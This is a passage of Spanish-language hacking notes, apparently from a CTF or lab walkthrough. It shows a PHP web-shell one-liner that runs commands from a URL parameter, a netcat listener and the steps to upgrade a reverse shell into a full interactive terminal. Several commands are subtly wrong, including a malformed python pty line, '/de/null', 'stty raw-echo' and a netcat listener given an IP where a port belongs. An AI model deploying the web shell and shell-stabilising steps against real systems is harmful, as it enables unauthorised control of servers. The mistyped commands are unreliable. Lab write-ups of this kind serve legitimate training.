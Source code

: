 
```bash
locate rev php
```

```bash
<?php system($_GET['cmd']);?>
```

[Revshells](https://www.revshells.com)

Y nos ponemos en escucha por netcat asi:

```bash
nc -lnvp <IP>
```

Y listo.

![Terminal](https://i.postimg.cc/kgRhvmFt/ww-data.png)

### Tratamiento de la shell

Este paso es importante ya en ocasiones comandos como ls, nano o less no se visualizan de forma correcta, asi que podemos intentar con esto:

```bash
python -c 'import pty:pty.spawn("/bin/bash")
```

Y si los errores persisten podemos probar con una shell mas elaborada como la siguiente

Ejecutamos lo siguiente:

```bash
script /de/null -c bash
```

Nos arroja como resultado: *Script started, output log file is ‘/dev/null’. Y tenemos que hacer una reconexión con **CTRL + Z** Nos reconectamos con:

```bash
stty raw-echo;fg
```

Ahora escribimos **reset** Entonces nos preguntará que tipo de terminal queremos, asi que escribimos **xterm** y ahora tenemos una mejor terminal, pero no lo suficiente.

Ahora tenemos que exportar algunos parametos, escribimos

```bash
export SHELL=bash TERM=xterm

# Tambien podemos user SHELL=/bin/bash

# Para er las dimensiones de nuestra consola
stty size
stty -a

# Para redimensionar la consola ajustando los parametros
stty rows <ROWS> columns <COLUMNS>
```

